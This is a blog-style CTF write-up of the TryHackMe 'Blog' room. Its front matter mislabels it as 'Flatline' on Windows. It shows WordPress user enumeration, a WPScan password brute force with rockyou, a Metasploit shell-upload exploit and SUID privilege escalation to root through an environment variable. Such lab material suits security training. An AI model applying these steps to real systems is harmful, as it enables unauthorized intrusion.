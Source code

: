 ```yaml
---
weight: 3
title: "CTF writeup - Flatline"
date: 2021-05-21T22:15:40+08:00
lastmod: 2022-08-29T17:16:40+08:00
description: "Another late night CTF on the awesome platform TryHackMe"
featuredImage: "tryhackmebanner.jpg"
hiddenfeaturedImage: false

tags: ["TryHackMe", "CTF", "Windows"]
categories: ["Writeups"]

lightgallery: false
summary: The tags on this box tells us that it involves Windows, privesc, RCE and enumeration.
---
```


# TryHackMe: Blog

![Untitled](blog/headlogo.png)

"Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole..."

After reading the description of this room we know that its a box running Wordpress.

# Scanning & Enumeration

## NMAP

```bash
**nmap -sV -sC -A -T4 -p- 10.10.67.202**
```

{{< figure src="/blog/nmap_scan.png">}}

It shows us some Windows services like SMB and the admin interface for the wordpress site.

## Enum4linux

Lets check out SMB first.

```bash
enum4linux -a blog.thm
```

{{< figure src="/blog/enum4linux.png">}}

We got some shares and user names! Lets try and poke the BillySMB share with smbclient.

## SMBclient

```bash
smbclient [//blog.thm/BillySMB](https://blog.thm/BillySMB) -N
```

{{< figure src="/blog/smbclient.png">}}

Looks like we're chasing rabbits. This was a dead end...

# Gaining Access

Moving on to the wordpress site on port 80, we can see in the robots.txt that theres a /wp-admin/ page.

{{< figure src="/blog/login_portal.png">}}

We can enumerate users and try to password spray or brute force this login form with WPScan.

## WPScan

```bash
wpscan --url [http://blog.thm](http://blog.thm/) --enumerate u
```

{{< figure src="/blog/wpscan.png">}}

We also find some other interesting stuff, like XML-RPC etc.

Now that we know the user names, we can try to log in to the Wordpress admin panel.

```bash
wpscan --password-attack wp-login --usernames bjoel,kwheel --passwords /home/kali/wordlists/rockyou.txt --url  [http://blog.thm/wp-login.php](http://blog.thm/wp-login.php)
```

{{< figure src="/blog/password_attack.png">}}

SUCCESS! We found the password and we are now in the admin page area of the Wordpress blog:

{{< figure src="/blog/wp_admin.png">}}

Perhaps we can get a shell from here and gain initial access into the box...
We know that the WordPress version is running version 5.0, where WPScan revealed a known vulnerability.

Perhaps searchsploit has some info?

# Exploitation

```bash
searchsploit wordpress 5
```

{{< figure src="/blog/searchsploit.png">}}

This one looks interesting. A shell upload. Just what we were looking for.

Copying the shell to our working dir, and we inspect it with sublime text editor:

{{< figure src="/blog/copy_shell.png">}}

Apparently, this is a metasploit module which exploits a path traversal and a local file inclusion vulnerability on WordPress versions 5.0.0 <= 4.9.8.
It needs a user with “author” privileges to work.
Luckily for us, our Karen user has the right privileges.

## Reverse shell

And we got ourselves a nice meterpreter interactive session!

{{< figure src="/blog/meterpreter.png">}}

Time to enumerate some more...

# Privilege Escalation

The room wants us to find “user.txt”.
A quick search reveals it, but it looks like another dead end...

```bash
find / -name "user.txt" 2>/dev/null
```

{{< figure src="/blog/find_files1.png">}}

I usually upload linpeas or enum4linux or something like that, to automatically look for easy privilege escalation techniques.
But first, I always do a quick search for SUID binary files.

## SUID binary

```bash
find / -perm -u=s -type f 2>/dev/null
```

Interesting...the usual suspects are listed, but there is one among them that stands out.
I have never seen this binary “checker” before on GTFObins.

{{< figure src="/blog/meterpreter.png">}}

```bash

ls -lah /usr/sbin/checker
-rwsr-sr-x 1 root root 8.3K May 26  2020 checker
```

We can see that this binary will execute as root when we run it.

{{< figure src="/blog/rootbinary1.png">}}

It throws us an error code when we try to run it...
Lets check it out with ltrace

```bash
ltrace /usr/sbin/checker
/checker
Not an Admin
ltrace checker
getenv("admin")                                  = nil
puts("Not an Admin")                             = 13
Not an Admin
+++ exited (status 0) +++
```

Analyzing the output, we can see that it just checks if we are admin with **getenv**.
We can modify this...

```bash
export admin=1
```

Now when we inspect the binary again:

{{< figure src="/blog/rootbinary2.png">}}

We are apparently set as admin and it runs bash, which will execute as root.

```bash

./usr/sbin/checker
whoami
```

{{< figure src="/blog/whoami.png">}}

Now we can finish up the room, and get the two flags!

```bash
find / -name "root.txt" 2>/dev/null
/root/root.txt
find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
cat /root/root.txt
cat /media/usb/user.txt
```

{{< figure src="/blog/rootbinary3.png">}}